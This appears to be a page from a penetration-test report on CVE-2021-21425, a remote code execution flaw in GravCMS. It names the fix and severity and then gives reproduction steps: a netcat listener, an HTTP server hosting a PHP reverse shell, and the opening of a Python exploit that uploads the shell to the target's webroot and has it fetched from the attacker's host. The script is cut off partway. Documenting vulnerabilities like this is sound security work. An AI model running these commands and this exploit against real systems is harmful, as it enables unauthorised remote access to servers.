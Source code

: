 **Vulnerability Fix:** Update to at least GravCMS 1.7.10.

**Severity:** Critical

**Steps to reproduce the attack:**
The following steps are needed for an initial remote shell on the system.  

Set up a listener on the local attack machine using netcat.  

```bash
nc -lvnp 4444
```
Set up a python http server on the local attack machine.  

```bash
python -m http.server
```

Transfer a reverse php reverse shell to the directory currently running the http server.  

```bash
cp /usr/share/wordlists/php/reverse-shell.php rev-shell.php
```

Using the following exploit I have written in python, the reverse shell is uploaded to the web root.
The exploit can be found at https://github.com/purple-sec/exploits/blob/main/grav-admin-exploit.py.  

\newpage

```python
#!/bin/python
#
# GravCMS RCE
#
# CVE-2021-21425
#
# Uploads a PHP reverse shell to GravCMS webroot.

import requests
import re
import random
import string


# CHANGE THIS
# url of the target
target = "192.168.229.12/grav-admin"

# CHANGE THIS
# local host to download reverse shell
LHOST = "192.168.45.5"

# CHANGE THIS
# local port to download reverse shell
LPORT = "8000"

def task_number(length):
    """ Create a random alphanumeric string to use as a task number """

    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))


def get_nonce(response):
    """ Extract admin nonce from get response """

    matched_line = [line for line in response.text.split('\n') if 'admin-nonce' in line]
    return re.findall('"([^"]*)"', matched_line[0])[2]

```